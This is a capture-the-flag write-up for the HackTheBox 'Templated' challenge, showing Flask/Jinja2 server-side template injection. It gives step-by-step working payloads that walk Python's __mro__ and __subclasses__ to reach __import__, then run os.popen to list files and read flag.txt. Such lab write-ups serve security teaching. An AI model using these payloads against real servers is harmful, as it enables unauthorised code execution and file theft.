


> Description:
> Can you exploit this simple mistake?

## Intro

Templated is a web challenge on HackTheBox. When we first visit the website we get this index page.


Note that the website is powered by Flask and the Jinja2 python template engine.

The index page doesn't show anything interresting, neither does the request/response headers. So I moved to directory/file fuzzing in hopes of finding something. **Gobuster** wasn't successful since the website was returning status code 200 for every URL tried. So I tried to access a URL in the browser to see the result.


Okay, so we can see that a template is being used here to create a dynamic page that notifies the user that the page was not found. notice also that user-supplied in the URL is being reflected in the page content, that might be our way in. Yes, XSS comes to mind first (there is a very basic filter that can be bypassed) and it works, but that doesn't get us the flag to solve the challenge. Next, FLask/Jinja2 SSTi comes to mind...

## Server-Side Template Injection

simply put, SSTi allows an attacker to inject a template directive as user input that can execute arbitrary code on the server. That happens when developers don't follow best practices and use unsanitized user input. So let's test for SSTi.

Let's start by appending **{{1+1}}** to the URL
```
http://46.101.23.188:32368/{{1+1}}
```


We can see that the mathematical expression was evaluated and its result reflected back to us. This means that the python code injected inside **{{}}** will be executed on the server.
Great, now let's remember that our goal is to get the flag, to do that we either need to pop a shell on the server, or simply read a file stored on the server, and since we have code execution, both can be done.
But **HOW**??
SSTi is a big topic that cannot be covered in one blog post, so you can refer to [this](https://portswigger.net/research/server-side-template-injection) and [this](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) as an intro. Note that SSTi affects different platforms (not just Flask/Jinja2) but the idea is the same. I'll try to explain what's going on without going too much into details.
Here we are working with Python, our goal is to access the **os** module in order to run commands on the server.

## __mro__, __subclasses__, And Reading flag.txt
We have to work with Python objects, the goal is to find a object in our environment that has access the **__import__** builtin function.
In python **__mro__** allows us to go back up the tree of inherited objects in the current Python environment, and **__subclasses__** lets us come back down. Basically, you can crawl up the inheritance tree of the known objects using **mro**, and branch out to any subclass of any object, thus accessing every class loaded in the current python environment.

Let's start with the **string** class since we have direct access to it, and then we will gradually modify our input based on our goal.
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1]}}
```


**str.__mro__[1]** is the **object** class which is the parent node in the inheritance tree.
Now we have to move down the inheritance tree so let's list all subclasses that can be accessed from **object**
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()}}
```



Here we can see some of those classes. Now our goal is to find a class that has the **__import__** builtin function accessible in its module. One such class is **warnings.catch_warnings** at offset **186** in the subclasses list. So our input becomes:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]}}
```


We can see that the **__import__** function can be accessed from **catch_warnings**'s global namespace.
The **__globals__["__builtins__"]** dictionary allows us to access everything defined in the global namespace of the module in which a function resides, in this case, the function is the constructor of the **warnings.catch_warnings** class **__init__.
Okay, so we can access the **__import__** method. Now we have to call it to import the **os** module, and then we can call **popen()** which executes a command and opens a pipe from it so that we can **read()** its output:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```



The **ls** command shows us that the file **flag.txt** is present and thus can be accessed directly:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```


Done!